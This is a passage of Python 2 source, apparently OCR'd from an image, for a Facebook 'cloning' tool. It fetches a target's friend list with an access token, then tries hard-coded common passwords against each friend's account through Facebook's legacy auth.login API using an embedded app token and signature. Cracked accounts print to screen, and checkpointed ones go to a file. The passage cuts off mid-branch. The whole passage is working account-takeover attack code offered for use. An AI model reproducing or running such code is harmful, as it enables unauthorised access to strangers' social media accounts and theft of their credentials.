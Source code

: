 		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;97m[✔] Name\033[1;97m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;97mID Not Found!"
			raw_input("\n\033[1;97m[\033[1;97mBack\033[1;97m]")
			super()
		print"\033[1;97m[✔] Getting IDs..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
        
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;97mFill in correctly"
		pilih_super()
	
	print "\033[1;97m[✔] Total Friends \033[1;97m: \033[1;97m"+str(len(id))
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;97m[✔] Cloning Started\033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
        print"""
[!] To Stop Process Press CTRL Then Z

---------------------------------------------------------"""		
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:Nazmul
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = '786786'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				z = json.loads(x.text)
				print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass1	
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass1	
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = '000786'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q: